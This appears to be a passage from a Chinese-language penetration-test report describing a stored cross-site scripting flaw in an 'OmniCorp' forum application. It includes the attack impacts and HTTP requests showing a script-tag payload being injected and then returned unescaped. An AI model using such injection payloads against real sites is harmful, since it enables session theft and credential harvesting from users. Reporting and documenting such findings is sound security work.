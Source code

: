 >
> - 在浏览器会话中运行加密矿工
> - 尝试窃取经过身份验证的页面上特定于用户的会话令牌或内容
> - 注入虚假表格供用户填写，以试图窃取信息（例如，用于收集凭据的登录表格）
> - 在用户不知情的情况下在用户上下文中执行操作（例如，将恶意内容发布到论坛）
> - 显示恶意内容
>
> 鉴于利用此漏洞的方式多种多样，此问题会严重影响任何处理敏感数据的应用程序，因为它更有可能被盗、修改或删除。
>
> 以下 HTTP 请求和响应显示了 OmniCorp 论坛应用程序软件接受的基本 JavaScript 的注入。
>
> **请求**
>
> ```
> POST /forum/post/1/comment HTTP/1.1
> Host: forum.example.com
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 68
> Cookie: sessionid=REDACTED
>  
> postId=42&comment=%3Cscript%3Ealert('XSS')%3C%2Fscript%3E
> ```
>
> **响应**
>
> ```
> HTTP/1.1 200 OK
> Content-Type: text/html; charset=UTF-8
> Content-Length: 256
> ```
>
> 以下 HTTP 请求和响应显示服务器作为可在用户浏览器会话中运行的可执行 JavaScript 返回的有效负载。
>
> **请求**
>
> ```
> GET /forum/post/1/comments HTTP/1.1
> Host: forum.example.com
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 68
> Cookie: sessionid=REDACTED
> ```
>
> **响应**
>
> ```
> HTTP/1.1 200 OK
> Content-Type: text/html; charset=UTF-8
> Content-Length: 256
>  
> <html>
> <body>
>   <div id="content">
>     <div class="comment">User posted: <script>alert('XSS')</script></div>
>   </div>
> </body>
> </html>
> ```
>
> 下图显示了正在执行的有效负载：
>
> ![img](https://raw.githubusercontent.com/B1ueD0g/Picture/main/202404231958163.png)
>
> 正在执行的 Omnicorp 存储的跨站点脚本